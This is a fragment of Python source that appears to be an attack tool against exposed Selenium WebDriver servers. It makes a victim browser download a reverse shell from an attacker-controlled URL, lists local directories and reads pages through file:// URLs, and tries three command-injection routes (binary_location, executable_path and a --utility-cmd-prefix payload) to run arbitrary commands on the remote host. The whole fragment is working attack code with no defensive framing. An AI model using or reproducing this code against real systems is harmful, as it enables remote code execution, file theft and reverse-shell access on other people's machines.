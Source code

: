 ```python
    # Phase 1 download reverse shell
    chrome_options = webdriver.ChromeOptions()
    chrome_options.add_argument("--no-sandbox")
    preferences = {"download.default_directory": download_dir ,
               	"directory_upgrade": True,
               	"safebrowsing.enabled": True }
    chrome_options.add_experimental_option("prefs", preferences)
    driver = webdriver.Remote(command_executor=vic_full, options=chrome_options)
    # Selenium flow
    driver.get(attack_dl)
    print("GET request, waiting for page load")
    time.sleep(10)
    print(driver.page_source)
    dl = driver.find_element("id", "raw-url")
    dl = convert(driver, dl)
    dl.click()
    print("clicked, waiting 10 seconds for download")
    time.sleep(10)
    print("download should be finished")
    driver.quit()

def get_list(directory):
    print(f"listing {directory}")
    driver = webdriver.Remote(command_executor=vic_full, desired_capabilities=DesiredCapabilities.CHROME)
    driver.get(f"file://{directory}")
    print(driver.page_source)
    driver.quit()

def get_source(url):
    driver = webdriver.Remote(command_executor=vic_full, desired_capabilities=DesiredCapabilities.CHROME)
    driver.get(url)
    print(driver.page_source)
    driver.quit()

def binary_location_method(command, args):
    # This method attempts to use the binary_location method to perform command injection
    print('executing...')
    option = Options()
    option.binary_location = command
    for i in args:
        option.add_argument(i)
    driver = webdriver.Remote(command_executor=vic_full, options=option)
    driver.get('http://google.com/')
    driver.quit()

def executable_method(path):
    # This method attempts to use the executable_path to start your binary directly
    driver = webdriver.Remote(command_executor=vic_full, executable_path=path)
    driver.get('https://google.com/')
    driver.quit()

def prefix_attack(payload):
    # This method attempts to use utility-cmd-prefix to perform command injection
    chrome_options = webdriver.ChromeOptions()
    chrome_options.add_argument("--no-sandbox")
    chrome_options.add_argument("--utility-and-browser")
    chrome_options.add_argument("--utility-cmd-prefix="+payload)
    driver = webdriver.Remote(command_executor=vic_full, desired_capabilities=DesiredCapabilities.CHROME, options=chrome_options)
    print("This will not be reached")
    driver.get("http://google.com")
```